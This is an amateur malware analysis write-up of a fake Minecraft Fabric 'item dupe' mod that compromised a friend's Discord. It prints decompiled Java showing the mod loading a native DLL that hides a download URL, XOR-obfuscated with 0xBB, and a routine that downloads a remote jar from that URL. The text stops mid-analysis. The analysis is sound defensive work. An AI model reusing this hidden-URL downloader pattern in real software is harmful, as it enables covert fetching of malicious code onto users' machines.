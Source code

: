 # Malware Analysis
## Background

i got this Malware from a friend who got hacked by it. 
The malware is disguised as a Minecraft Fabric mod to dupe items in the version 1.21.
after a day or so our base was gone and he had new "friends" on discord.
After noticing i asked him to send me the "Mod".

## Stage 1: The Minecraft Mod

After extracting the mod  
`$ unzip Malware.jar`

and looking whats there i found a suspicios dll called mysecret.dll.  
After looking into it further i also found that in [NewMod.class (Dumped)](./../assets/malware-analysis/stage1/unpacked/dev/majanito/NewMod.java)  
are some things i do **NOT** like

number one:
```
    private byte[] downloadJar(String urlString) throws Exception {
        URL url = new URL(urlString);
        HttpURLConnection conn = (HttpURLConnection)url.openConnection();
        conn.setRequestMethod("GET");
        try (InputStream in = conn.getInputStream();){
            byte[] byArray;
            try (ByteArrayOutputStream out = new ByteArrayOutputStream();){
                int n;
                byte[] buffer = new byte[8192];
                while ((n = in.read(buffer)) != -1) {
                    out.write(buffer, 0, n);
                }
                byArray = out.toByteArray();
            }
            return byArray;
        }
    }
```

which is called btw
`byte[] jarBytes = this.downloadJar(Secret.VALUE);`

---

and number two:
```
$ cfr Secret.class 
/*
 * Decompiled with CFR 0.152.
 */
package dev.majanito;

import dev.majanito.NativeUtils;

public class Secret {
    public static final String VALUE;

    private static native String loadSecret();

    static {
        String libPath = "/native/" + System.mapLibraryName("mysecret");
        NativeUtils.loadLibraryFromJar(libPath);
        VALUE = Secret.loadSecret();
    }
}
```
---
This brought me to the conclusion that the Mod Loads a .dll, mysecret.dll to be exact,  
and Dowloads something from a link it returns.

### Stage 1.2, getting the download link

looking at the strings in the dll we dont see much,
the most notable beeing:  
`Java_dev_majanito_Secret_loadSecret`

dumping it with  
`objdump -d mysecret.dll`  
we get [this dump](./../assets/malware-analysis/stage1/dump.txt),  
though we only care about the loadSecret function.

---

after looking at ít in [binaryninja](https://binary.ninja/)
i saw this:  
![Picture](./../assets/malware-analysis/pictures/stage1xor.png "an Xor cipher")

The main thing i saw was this loop, it read data from the first 28 bytes  
of .rdata, and then XORs them with 0xBB (187).


